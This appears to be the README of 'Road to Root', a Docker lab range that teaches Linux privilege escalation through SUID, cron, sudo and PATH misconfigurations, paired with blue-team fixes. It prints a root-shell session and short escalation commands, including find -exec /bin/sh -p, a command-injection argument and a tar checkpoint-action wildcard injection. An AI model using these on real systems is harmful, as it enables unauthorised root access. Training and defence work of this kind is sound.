

<h1 align="center">🔓 Road to Root</h1>

<p align="center">
  <strong>Hands-on Linux privilege-escalation labs in Docker — where you <em>actually</em> get root.</strong><br/>
  <sub>4 chapters live · 15 earlier paths plus 3 new PATH labs · every exploit CI-verified end-to-end · every bug paired with the blue-team fix.</sub>
</p>

<p align="center">
  <a href="https://github.com/Adw0rm-sec/road-to-root/actions/workflows/ci.yml"></a>
  <a href="LICENSE"></a>
  
  
  
  
  
</p>

<p align="center">
  <a href="https://github.com/Adw0rm-sec/road-to-root/wiki">
    
  </a>
</p>

---

## 🎬 What capturing a flag looks like

```bash
# Phish got you an SSH account on the target. You land as labuser1.
labuser1@hollow-fileproc-01:~$ find / -perm -4000 -type f 2>/dev/null
/usr/bin/sudo
/usr/bin/passwd
/usr/local/bin/suid-find          # ← huh, that's not standard
/usr/local/bin/suid-python        # ← neither is this
/usr/local/bin/logstats
/usr/local/bin/logreader
/usr/local/bin/report
...

# GTFOBins says that's enough. Two lines to a root shell:
labuser1@hollow-fileproc-01:~$ /usr/local/bin/suid-find . -maxdepth 0 -exec /bin/sh -p \;
sh-5.2# id
uid=1001(labuser1) gid=1001(labuser1) euid=0(root) groups=1001(labuser1)
sh-5.2# cat /root/flag.txt
R2R{su1d_b1ts_are_forever_check_your_perms}
```

That was Chapter 01, Station A. Four more paths on the same host, four more mistakes to learn. Then Chapter 02 — same shape, cron triggers instead. Then 03 — sudo rules. Then you read [the wiki](https://github.com/Adw0rm-sec/road-to-root/wiki) and see exactly how a defender would have caught every single one of them.

---

## ⚡ 60-second start

```bash
git clone https://github.com/Adw0rm-sec/road-to-root
cd road-to-root
make up                               # builds attacker + first target (Ch 01)
make attacker                         # shell into the attacker box
# inside attacker:
ssh labuser1@target-suid              # password: password123
```

You're `labuser1` on the target. Your mission on every host in the campaign:

1. **Enumerate** — understand the box you landed on.
2. **Escalate** — turn `labuser1` into `root`.
3. **Capture** — read the root-only flag to prove it: `/root/flag.txt` (format `R2R{...}`).
4. **Report** — document the path, how to detect it, how to fix it.

First moves you'll reach for in every chapter:

```bash
find / -perm -4000 -type f 2>/dev/null             # Chapter 01 surface
cat /etc/crontab /etc/cron.d/* 2>/dev/null         # Chapter 02 surface
sudo -l                                            # Chapter 03 surface
```

Stuck? The chapter READMEs have hints with increasing detail; the [wiki](https://github.com/Adw0rm-sec/road-to-root/wiki) has the full debrief per station. The six questions below are what those commands are asking, and which lab a hit opens.

---

## 🎯 Why Road to Root

- **Story-driven, not a checklist.** You're an operator for *BlackReef Security* hitting *Hollow Industries*. Each box has a reason to exist in the fiction — it reads like a job, not homework.
- **Five paths per box.** Fail one — four others are waiting. You *compare* techniques instead of memorising the "right" answer.
- **Teaches the fix, not just the break.** Every station ships with a blue-team `find`/`grep`/`auditd` one-liner that would have killed the bug, plus the exact perms change that prevents it. Red team *and* blue team both learn here.
- **Fully CI-verified.** `tests/verify_<chapter>.sh` exploits every path on every push. If the lab breaks, CI goes red. **15/15 paths pass today — every push, on a clean GitHub Actions runner.**
- **Free, local, fast.** Docker-only. No VPN. No cloud. No signup. Reset any target with one command.
- **The wiki is the course.** 25+ mentor-style pages: mission brief → recon with exact output → exploit **flag-by-flag** → the kernel/sudo/cron mechanic → 3–6 real-reader pitfalls → blue-team detect + fix → transferable lessons. Written the way a senior operator would walk a junior through the box — not the way a docs portal would catalogue it.

---

## 🗺️ What you'll learn

You SSH in as `labuser1` (uid 1001). You are not root. Ask these six questions in order. The first lead is a lab you exploit yourself. Red boxes on the map are those labs. Click one and the walkthrough opens.

**1. Will root run a program for me, with no password?** Run `sudo -l`. A hit looks like `(ALL) NOPASSWD:` and a path. That path is the lab: [find](https://github.com/Adw0rm-sec/road-to-root/wiki/C03-Station-A-GTFOBins-sudo-find), [a script you can edit](https://github.com/Adw0rm-sec/road-to-root/wiki/C03-Station-B-Writable-Sudo-Script), [LD_PRELOAD](https://github.com/Adw0rm-sec/road-to-root/wiki/C03-Station-C-LD_PRELOAD-env_keep) (write the `.c` file, then `gcc`, then sudo), [a `*` in the path](https://github.com/Adw0rm-sec/road-to-root/wiki/C03-Station-D-Sudo-Wildcard-Symlink), or [a script that evals your file](https://github.com/Adw0rm-sec/road-to-root/wiki/C03-Station-E-Eval-Injection). The `*` lab gives you a root file, not a shell.

**2. Does a program become root just because I ran it?** Run `find / -perm -u=s -type f 2>/dev/null`. The `-perm -u=s` flag means the setuid bit is on: the file runs as its owner, and owner `root` means that program is root while it runs. `2>/dev/null` only hides "Permission denied". Skip the normal Ubuntu set (`sudo`, `su`, `passwd`, `mount`, and the rest). An `s` in `-rwsr-xr-x` on anything else is the lab: [find](https://github.com/Adw0rm-sec/road-to-root/wiki/C01-Station-A-GTFOBins-find), [python](https://github.com/Adw0rm-sec/road-to-root/wiki/C01-Station-B-GTFOBins-python), [it calls `du` with no folder](https://github.com/Adw0rm-sec/road-to-root/wiki/C01-Station-C-PATH-Hijack), [it pastes your argument into a shell](https://github.com/Adw0rm-sec/road-to-root/wiki/C01-Station-D-Command-Injection), or [it loads a library from a folder you can write](https://github.com/Adw0rm-sec/road-to-root/wiki/C01-Station-E-Shared-Object-Hijack).

**3. Does root run a file on a clock?** Run `ls -la /etc/crontab /etc/cron.d /etc/cron.daily /etc/cron.hourly` and `systemctl list-timers --all`. Cron is root's clock. Open the file the job names: [a script you can edit](https://github.com/Adw0rm-sec/road-to-root/wiki/C02-Station-A-Writable-Cron-Script), [a config that script reads](https://github.com/Adw0rm-sec/road-to-root/wiki/C02-Station-B-Writable-Sourced-Config), [a folder root runs every file in](https://github.com/Adw0rm-sec/road-to-root/wiki/C02-Station-C-Writable-Drop-Dir), [a command with no folder, such as `df`](https://github.com/Adw0rm-sec/road-to-root/wiki/C02-Station-D-Cron-PATH-Hijack), or [`tar` with a `*`](https://github.com/Adw0rm-sec/road-to-root/wiki/C02-Station-E-Tar-Wildcard-Injection).

**4. Can I change a file or folder root will trust?** Run `echo "$PATH"`. Folders are searched left to right. A folder you can write, listed before `/usr/bin`, is a PATH hijack: C01-C when a setuid program calls `du`, C02-D when cron calls `df`. Chapter 04 on `target-path` adds the other three triggers: a sudo script that sets its own `PATH`, a service unit whose `PATH` lists a writable directory, and a writable `/etc/environment`.

**5. Who am I, and did someone leave a password or a key?** Run `id`, `cat ~/.bash_history`, `ls -la ~/.ssh`, and `env`. `uid=1001` is labuser1. A password in history is not root. `su` to that user, run `sudo -l` again, and you are back at question 1.

**6. What kernel is this?** Run `uname -a`. Write the version down. These containers share the machine's kernel, so a kernel exploit is not a lab here.



Every red box ends at `/root/flag.txt`. The station list under the roster is the same 15 paths, with the file each one trusts.

### Campaign roster

| # | Chapter | Host (codename) | Root cause | Difficulty | Status |
|---|---|---|---|:---:|:---:|
| 01 | **SUID Bits** | `target-suid` (`hollow-fileproc-01`) | Misused SUID binaries | ★☆☆☆ → ★★★☆ | ✅ Ready |
| 02 | **Cron Jobs** | `target-cron` (`hollow-backup-01`) | Root's timers trust the wrong things | ★☆☆☆ → ★★★☆ | ✅ Ready |
| 03 | **Sudo Rules** | `target-sudo` (`hollow-dmz-01`) | Dangerous `sudoers` entries | ★☆☆☆ → ★★★☆ | ✅ Ready |
| 04 | **PATH Hijacking** | `target-path` (`hollow-ops-01`) | Root calls a command by name, and a writable directory is searched first | ★★☆☆ | ✅ Ready |
| 05 | Capabilities | — | `cap_setuid` on a binary | ★★★☆ | ⏳ Planned |
| 06 | Writable `/etc/passwd` | — | Weak file permissions | ★☆☆☆ | ⏳ Planned |
| 07 | NFS `no_root_squash` | — | Exported share mounts as root | ★★★☆ | ⏳ Planned |
| 08 | Docker socket | — | `/var/run/docker.sock` exposed | ★★★☆ | ⏳ Planned |

### The paths in the four live chapters

<details open>
<summary><strong>Chapter 01 — SUID Bits</strong>  ·  5 paths  ·  ★☆☆☆ → ★★★☆</summary>

- **A · GTFOBins binary** — SUID copy of `find` → `-exec /bin/sh -p` runs an arbitrary command as root
- **B · GTFOBins interpreter** — SUID copy of `python3` → write your own Python; `os.setuid(0); os.system("/bin/bash")`
- **C · PATH hijack** — custom SUID binary calls `du` by bare name; plant a fake `du` early on `$PATH`
- **D · Command injection** — custom SUID binary pastes `argv[1]` into a shell; `"x; /bin/bash -p"`
- **E · Shared-object hijack** — custom SUID binary loads `libgreet.so` from a 0777 RPATH dir; replace the `.so` with your own constructor

</details>

<details open>
<summary><strong>Chapter 02 — Cron Jobs</strong>  ·  5 paths  ·  ★☆☆☆ → ★★★☆</summary>

- **A · Writable cron script** — append to `/opt/maint/rotate.sh` (mode `0777`); root runs it every minute
- **B · Writable sourced config** — a locked root script `source`s `/etc/rtr/backup.conf` (mode `0666`); `source` executes the file
- **C · Writable drop directory** — root runs every `*.sh` in `/opt/jobs/` (mode `0777`); drop a new script
- **D · Cron PATH hijack** — `/etc/cron.d/rtr-health` sets `PATH=/opt/maint/bin:…` with a writable first entry; shim `df`
- **E · Tar wildcard injection** — root's `tar czf … *` inside `/opt/data/` (mode `0777`); `touch -- '--checkpoint-action=exec=sh pwn.sh'`

</details>

<details open>
<summary><strong>Chapter 03 — Sudo Rules</strong>  ·  5 paths  ·  ★☆☆☆ → ★★★☆</summary>

- **A · NOPASSWD on a GTFOBins binary** — `sudo /usr/bin/find . -maxdepth 0 -exec /bin/bash \;`
- **B · NOPASSWD on a world-writable script** — `/opt/admin/backup.sh` is mode `0777`; overwrite then `sudo`-run it
- **C · `env_keep += "LD_PRELOAD"`** — sudo forwards `LD_PRELOAD`; load a `.so` whose constructor fires as root
- **D · sudoers wildcard + symlink** — `sudo cat /var/log/app/*.log` + `ln -s /root/flag.txt /var/log/app/pwn.log`
- **E · `eval` injection in a sudo'd script** — `/opt/admin/add-contact.sh` `eval`s its `argv`; `sudo … 'bob; /bin/bash'`

</details>

<details open>
<summary><strong>Chapter 04 — PATH Hijacking</strong>  ·  5 paths  ·  ★★☆☆</summary>

- **A · SUID trigger** — already on `target-suid`, Chapter 01 Station C. `logstats` calls `du` by name
- **B · Cron trigger** — already on `target-cron`, Chapter 02 Station D. The job calls `df`, and a writable directory is first on that job's `PATH`
- **C · Sudo wrapper** — `/opt/admin/disk-check.sh` is not writable. It sets `PATH` so `/opt/admin/bin` is first, then calls `df`
- **D · Service PATH** — `rtr-disk.service` sets `PATH=/opt/svc/bin:...`. A root loop runs that unit every 20 seconds. Docker does not boot systemd; the loop is the clock
- **E · `/etc/environment`** — the file is mode `0666`. A root job sources it, then calls `uname`

</details>

Every one of these has a dedicated wiki page with the exploit flag-by-flag, the mechanic, the pitfalls, and the blue-team fix:

→ **[Open the wiki →](https://github.com/Adw0rm-sec/road-to-root/wiki)**

---

## 🖥️ Running each chapter

```bash
make up                 # Chapter 01 (SUID)   attacker + target-suid
make up-cron            # Chapter 02 (Cron)   attacker + target-cron
make up-sudo            # Chapter 03 (Sudo)   attacker + target-sudo
make up-path            # Chapter 04 (PATH)   attacker + target-path

make attacker           # shell into the attacker box (all chapters)
make shell-<chapter>    # root shell on the target (inspect / reset)
make reset-<chapter>    # rebuild the target back to pristine-vulnerable
make test-<chapter>     # run the lab's self-test (CI runs these too)
make down               # tear the whole range down
```

One **attacker** box plus one vulnerable **target** per chapter, all on a shared Docker bridge network (`labnet`) so the attacker can reach targets by name (`ssh labuser1@target-suid`).

---

## 📖 The wiki — the proper way to work this range

Every station page follows the same 9-section shape, so you always know where to look:

1. **Mission brief** (in-world)
2. **Recon** — the exact commands, with the exact expected output
3. **The flaw** — one sentence
4. **The exploit** — every flag of every command explained
5. **Why it works** — the kernel/sudo/cron mechanic + a timeline table
6. **Pitfalls** — 3–6 real-reader traps (sticky bit, `-p`, `LD_PRELOAD` recursion, etc.)
7. **Blue-team: detect** — the audit `find`/`grep`/auditd one-liners
8. **Blue-team: fix** — the exact `chown`/`chmod`/config change
9. **What you learned** — 3–5 transferable bullets that port to every future box

Plus cross-cutting reference pages:

- [SUID Privesc Reference](https://github.com/Adw0rm-sec/road-to-root/wiki/SUID-Privesc-Reference) — `s`/`S`/`t` bit chart, GTFOBins primer, AT_SECURE, RPATH deep dive
- [Cron Privesc Reference](https://github.com/Adw0rm-sec/road-to-root/wiki/Cron-Privesc-Reference) — every path cron hides on Linux + the 5+2 recon questions
- [Blue-Team Playbook](https://github.com/Adw0rm-sec/road-to-root/wiki/Blue-Team-Playbook) — all audit one-liners in one place
- [Glossary](https://github.com/Adw0rm-sec/road-to-root/wiki/Glossary) — SUID / SGID / sticky / RPATH / `euid` vs `uid` / FHS / drop dir
- [FAQ & Troubleshooting](https://github.com/Adw0rm-sec/road-to-root/wiki/FAQ-And-Troubleshooting) — the Docker, cron-timing, sticky-bit gotchas
- [Contributing New Chapters](https://github.com/Adw0rm-sec/road-to-root/wiki/Contributing-New-Chapters) — the template every lab follows

→ **[Full Wiki index →](https://github.com/Adw0rm-sec/road-to-root/wiki)**

---

## ⚖️ Legal & ethics

This range exists **only** to teach defence through hands-on offence. Everything here is intentionally vulnerable and meant to run **locally, in throwaway containers, on hardware you own**.

- **Do not** expose these containers to the internet or any network you don't control.
- **Do not** use these techniques on systems you aren't explicitly authorised to test.
- Exploits are deliberately simplified for learning; real engagements require written authorisation and scope.

Unauthorised access to computer systems is a crime. You are responsible for how you use this. See [LICENSE](LICENSE).

---

## 🧱 What a container can't do

Containers share the **host kernel**, so true kernel exploits (Dirty COW, Dirty Pipe, `pwnkit`-style ring-0 bugs) can't be practised safely here — they'd need their own kernel. For those, keep a small old-kernel VM. Everything in the roster above is user-space misconfiguration and lives happily in Docker.

---

## 🤝 Contributing

Add your own chapter: the lab template and the contract every chapter follows live in **[docs/LAB_TEMPLATE.md](docs/LAB_TEMPLATE.md)** and the wiki's **[Contributing New Chapters](https://github.com/Adw0rm-sec/road-to-root/wiki/Contributing-New-Chapters)**. Issues and PRs welcome.

Full campaign lore, personae and design principles live in **[docs/CAMPAIGN.md](docs/CAMPAIGN.md)**.
